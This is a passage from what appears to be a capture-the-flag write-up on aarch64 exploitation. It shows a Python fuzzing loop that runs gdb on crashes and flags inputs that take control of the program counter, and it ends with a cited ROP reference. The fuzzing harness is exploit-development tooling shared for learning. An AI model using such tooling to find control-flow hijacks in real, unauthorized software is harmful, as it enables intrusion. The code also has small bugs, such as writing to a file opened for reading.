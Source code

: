 ```python
            proc = subprocess.run(["gdb-multiarch", "-q", "-x", "gdbscript.gdb"], stdout=subprocess.PIPE, stderr=subprocess.PIPE, timeout=5)
            op = proc.stdout
        except:
            try:
                proc.kill()
                r.close()
            except:
                pass
            continue
			
		# Print out the crashes, backtrace
        print("CRASHES========================")
        found_crashes = re.findall(PC_REG, op.decode("utf-8", errors="ignore"))
        print(found_crashes)
        print("BT=============================")
        backtrace = re.findall(BT_REG, op.decode("utf-8", errors="ignore"))
        print(backtrace)
        print("===============================")
		
		# STUPID BAD AND DUMB HEURISTIC for seeing if we control $pc
        hinput = hexlify(content)
        for f in found_crashes:
            check = bytes(hex(int(f, 16))[2:], "utf-8")
            print("==========CHECK: ", check, " IN ", hinput)
            if check in hinput:
                with open("goodcandidate.txt", "wb") as goods:
                    goods.write(content)
                    goods.write("\n==DONE==\n")
                    goods.write(bytes(str(found_crashes), "utf-8"))
                    goods.write(bytes(str(backtrace), "utf-8"))
        for f in found_crashes:
            check = bytes(hex(int(f, 16))[2:], "utf-8")
            if check in hinput:
                with open("goodcandidate.txt", "rb") as goods:
                    goods.write(content)
                    goods.write("\n==DONE==\n")
                    goods.write(bytes(str(found_crashes), "utf-8"))
                    goods.write(bytes(str(backtrace), "utf-8"))
        try:
            r.recv(timeout=2)
        except:
            pass
        try:
            proc.kill()
            r.close()
        except:
            pass
```

Now, is this overkill? Probably. Did it work? Also yes. Really you could have just not put a question mark or newline until the end of your input and it would also work. But this is a pretty fun way to solve. This script will write any inputs that successfully cause `$pc` to be part of the input (a bad heuristic in the general case but who cares) to the `goodcandidates.txt` file.


[^1]: [Perfect Blue's Excellent aarch64 ROP writeup](https://web.archive.org/web/20210503022008/https://blog.perfect.blue/ROPing-on-Aarch64) because I didn't know a whole lot about aarch64 pwn.